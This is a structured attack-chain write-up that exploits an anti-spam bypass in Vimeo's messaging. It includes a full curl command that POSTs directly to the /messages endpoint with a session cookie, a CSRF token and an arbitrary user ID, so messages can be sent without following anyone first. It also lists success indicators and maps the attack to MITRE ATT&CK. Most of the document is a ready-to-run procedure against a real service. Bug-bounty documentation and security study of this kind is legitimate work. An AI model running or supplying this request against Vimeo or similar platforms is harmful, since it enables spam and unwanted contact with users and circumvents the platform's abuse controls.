

# Vimeo Unauthorized Messaging Bypass via Direct POST to /messages Endpoint

Multi-stage attack chain demonstrating a complete attack workflow exploiting Vimeo's anti-spam bypass vulnerability.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or curl for HTTP requests

### Target Environment

- Vimeo web platform
- Access to a Vimeo account (authenticated session required)
- Network access to vimeo.com

### Initial Access Requirements

- Valid Vimeo session cookie and CSRF token
- No need for following any users

## Detailed Attack Procedures

### Step 1: Send Unauthorized Message
procedure: [[procedures/Bypass-Vimeo-Messaging-Authorization-with-POST-Request]]

**Objective**: Bypass the anti-spam measure requiring users to follow at least one member before sending private messages by directly POSTing to the /messages endpoint with an arbitrary user ID.

**Instructions**: Craft and send a form-encoded POST request to https://vimeo.com/messages using tools like curl or a browser's developer tools. Include necessary headers for authentication and form data for the message details. Use [[commands/vimeo-send-unauthorized-message-post]] to execute the request:

```bash
curl -X POST https://vimeo.com/messages \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Content-Type: application/x-www-form-urlencoded; charset=utf-8" \
  -H "Referer: https://vimeo.com/messages" \
  -H "Cookie: [YOUR_SESSION_COOKIE]" \
  -d "name=Jens>&text=blaat&action=send_message&lightbox=true&user=12345&token=[YOUR_CSRF_TOKEN]"
```

Verify the message was sent by checking the recipient's inbox or monitoring network responses for success (200 OK without errors).

**Expected Output**: HTTP 200 response indicating the message was sent successfully, with no authorization errors.

**Success Indicators**:
- Message delivery confirmation in response body
- No 401 Unauthorized error
- Ability to target any user ID without prior following

## Attack Chain Summary

### Key Achievements

1. Bypassed Vimeo's anti-spam restriction on messaging
2. Enabled spam or unauthorized communications to any user
3. Demonstrated lack of server-side checks on /messages endpoint

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T00:00:00Z*
